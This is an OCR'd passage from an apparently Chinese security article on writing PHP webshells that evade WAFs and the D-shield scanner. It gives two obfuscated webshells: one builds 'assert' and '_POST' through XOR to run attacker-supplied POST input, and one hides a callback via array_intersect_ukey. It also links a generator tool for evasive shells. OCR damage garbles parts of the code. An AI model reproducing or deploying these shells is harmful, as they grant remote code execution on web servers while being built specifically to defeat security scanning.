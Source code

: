 ![2020%2003%2018%2022%2013%20{second.png](../post_images/be40ae4dfda5959dde4753aa4e799152.png)


也可以使⽤⾃定义的加密⽅式，post包传⼊参数再由webshell解密，此种⽅式现有的waf查杀能⼒基本为0.


### ⽆字符特征⻢


利⽤异或或者编码等⽅式构造⽆字符的webshell，例如：


```php
<?php
$___=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';_
$_='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $_='_POST';
$__=$$__;
$$___($_[_]); // assert($_POST[_]);
?>

```


### 异或绕过


github上有个项⽬可以使⽤python⽣成异或免杀的webshell，不过其特征已被捕获，现在已经⽆法过D盾了。[github地址](https://github.com/yzddmr6/webshell-venom)
不过可以使⽤下⾯这篇⽂章的思路来进⾏修改重新免杀：[随机异或⽆限免杀D盾之再免杀](https://www.anquanke.com/post/id/193042)


举个例⼦：


```php
<?php
function v01cano($aaa,$sss, $bbb){
$ccc=$bbb;
array_intersect_ukey($aaa, $_sss, $ccc);
}
$0='&'^"\x47";
$1='C'^"\x30";
$2='A'^"\x32";
$3='v'^"\x13";
$4='J'^"\x38";
$5='f'^"\x12";_
$ddd=$_0._$_1.$_2._$_3.$_4._$_5; v01cano(array($_POST['x'] => 1),array(1), $ddd);_

```
